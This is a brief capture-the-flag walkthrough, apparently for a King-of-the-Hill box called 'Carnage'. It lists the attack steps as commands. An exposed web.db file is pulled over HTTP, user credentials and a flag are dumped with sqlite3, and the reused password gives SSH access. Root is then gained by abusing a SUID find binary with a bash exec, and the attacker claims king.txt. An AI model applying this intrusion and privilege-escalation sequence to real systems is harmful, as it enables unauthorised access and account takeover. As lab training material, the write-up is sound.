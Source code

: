 Carnage

## Popping a shell:
- `http://ip:81/web.db`
- `sqlite3`
	- `.open web.db`
	- `.headers on`
	- `.tables` --> `users`
	- `SELECT * FROM USERS;` --> username, password, + flag (base64 decode)

- Use ```bobba:[RADACTED]``` to ssh into box (password is always the same)
- `passwd bobba` to change password

## Getting root:

- SUID find: linpeans/linenum/`find / -perm -4000` --> https://gtfobins.github.io/
	- `/usr/bin/find . -exec /bin/bash \; -quit`
	- `chmod /usr/bin/find 0755`
	- `echo "$USERNAME" >> king.txt`

